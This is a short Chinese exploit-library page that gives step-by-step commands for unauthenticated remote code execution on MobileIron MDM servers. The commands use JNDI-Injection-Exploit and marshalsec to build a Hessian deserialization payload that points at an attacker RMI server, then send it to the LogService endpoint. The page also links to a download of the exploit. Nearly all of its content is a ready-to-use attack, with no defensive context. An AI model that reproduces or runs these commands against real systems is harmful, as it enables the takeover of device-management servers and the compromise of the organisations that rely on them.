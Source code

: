 ```yaml
---
title: 'MobileIron MDM 未授权RCE EXP'
date: Tue, 15 Sep 2020 07:32:20 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 步骤

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 0.0.0.0 -C "<Command>"
java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian SpringAbstractBeanFactoryPointcutAdvisor rmi://<server-ip>:1099/<codebase> > exp
python hessian.py -p exp -u 'https://mobileiron-mdm-instance/mifs/.;/services/LogService' 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/09/poc.png) ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/Screenshot_218.png) EXP 链接：https://pan.baidu.com/s/1jna0ZY-8BqRETUkYiJr5RQ 提取码：nh3f